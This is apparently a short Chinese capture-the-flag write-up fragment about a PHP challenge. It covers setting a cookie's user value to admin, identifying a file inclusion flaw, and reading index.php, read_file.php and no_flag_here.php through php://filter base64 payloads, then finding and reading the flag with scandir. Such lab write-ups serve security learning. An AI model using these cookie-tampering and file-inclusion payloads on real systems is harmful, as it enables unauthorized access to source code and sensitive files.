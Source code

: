 修改Cookie中的user值为admin
然后浏览器会跳转到新的页面
![TEST](1.png)
很显然,这边是一个文件包含漏洞,通过输入的参数,包含文件.
由此,我们可以通过php://filter协议读取源码
file=php://filter/read=convert.base64-encode/resource=index.php
file=php://filter/read=convert.base64-encode/resource=read_file.php
file=php://filter/read=convert.base64-encode/resource=no_flag_here.php
就可以获得三个文件的源码
在no_flag_here.php中提示flag在根目录,使用提供的scandir来浏览根目录,获得flag文件名,通过php://filter读取flag